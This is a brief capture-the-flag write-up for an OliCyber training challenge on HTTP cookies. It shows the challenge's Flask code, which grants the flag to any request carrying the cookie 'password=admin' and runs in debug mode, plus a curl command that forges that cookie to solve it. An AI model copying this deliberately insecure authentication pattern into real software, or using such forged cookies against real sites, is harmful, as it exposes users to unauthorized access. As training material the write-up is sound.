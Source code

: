 # URL
https://training.olicyber.it/challenges#challenge-344
# Concept
* HTTP cookies
# Method of solve
* the code that is used to deploy the app is as follows:
```
import json
from os import environ
from textwrap import dedent
from http import HTTPStatus
from flask import Flask, request, Response


app = Flask(__name__)


@app.route("/flag")
def flag():
    if request.cookies.get("password") == "admin":
        return Response(environ["FLAG"], mimetype="text/plain", status=HTTPStatus.OK)
    else:
        return Response("Bad password cookie. Unauthorized", mimetype="text/plain", status=HTTPStatus.UNAUTHORIZED)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True)
```
* according to the code, if there is a `password` cookie in the GET request with the value `admin`, then the flag is returned in the response
* this curl command will complete the challenge:
```
curl -b "password=admin" -v http://web-05.challs.olicyber.it/flag
```
